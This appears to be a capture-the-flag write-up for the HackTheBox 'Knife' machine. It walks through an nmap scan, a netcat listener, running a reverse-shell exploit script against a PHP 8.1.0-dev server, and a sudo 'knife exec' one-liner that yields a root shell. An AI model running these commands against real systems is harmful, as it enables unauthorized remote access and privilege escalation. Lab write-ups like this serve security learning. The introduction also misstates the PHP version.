

# HackTheBox - Knife

## Introduction
This box was an easy box where you are needed to exploit popular vulnerability in `PHP 8.0.1-dev` version for the user flag whereas you are required to exploit the application named `knife` to access root privileges. With that being said, let's get started.

### 1. Enumeration
When i joined the box, i was given the ip address of box as `10.10.10.242`. As always, i started with my `nmap` scan
```
> nmap -sC -sV -oA 10.10.10.242 -oN nmap_initial
```


but the scan didn't provide us with enough information. As we can see a http server was running on *port 80*, i went to check on the website and found out that the website contains a single page and not much information for us to proceed further


Looking at the developer tools, we can see the web server was using `PHP 8.1.0-dev`.


### 2. Payload
There has been a recent RCE exploit for this version of php. I have attached the exploit i used [here](payload/rev_shell.py). I quickly fired up my **netcat** listener 
```
> nc -vnlp 8888
```

Then i executed my payload 
```
> sudo python3 rev_shell.py http://10.10.10.242/ 10.10.14.8 8888
```
which responded us with a sweet reverse shell.



We can easily find the user flag in the home directory of user **james**.

### 3. Privileges escalation
As always, first thing first


we can see that there is a tool named `knife` that the user can use with escalated privileges without `sudo` password. Looking at a little bit of help section of the tool, we see that we can run any command with `--exec` flags set. So i crafted a payload
```
> sudo knife exec --exec "exec '/bin/sh -i'"
```


and we have a shell with root privileges. We can get the root flag from `/root` directory. 

### Conclusion
> This was a super easy box.